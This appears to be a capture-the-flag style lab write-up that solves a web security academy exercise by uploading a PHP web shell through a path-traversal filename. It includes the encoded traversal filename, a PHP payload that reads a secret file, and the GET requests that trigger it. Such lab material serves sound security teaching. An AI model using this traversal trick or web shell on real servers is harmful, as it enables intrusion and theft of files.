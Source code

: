 # Web shell upload via path traversal
# Objective
 This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter` 

# Solution
## Analysis

### Upload request example

|![](Images/image-10.png)|
|:--:| 
| *Normal upload request* |
|![](Images/image-11.png)|
| *Path to uploaded file* |

Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```

### PHP payload upload test
Application prevents from file execution in user-accessible directories.

|![](Images/image-12.png)|
|:--:| 
| *Successful PHP payload upload* |
|![](Images/image-13.png)|
| *PHP payload was not executed* |

## Exploitation
Exploit file was uploaded to `../` directory. In this way attacker can bypass above mentioned restriction and execute payload on the server.

Filename:
```
URL Decoded: filename="../fexploit.php"
URL Encoded: filename="..%2fexploit.php"
```

Payload `exploit.php`:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

|![](Images/image-14.png)|
|:--:| 
| *Successful PHP payload upload* |
|![](Images/image-15.png)|
| *Path to uploaded file* |
|![](Images/image-16.png)|
| *Triggering uploaded PHP file* |

`GET` request to both of these destination is able to trigger payload:
```
GET /files/avatars/../exploit.php
GET /files/exploit.php
```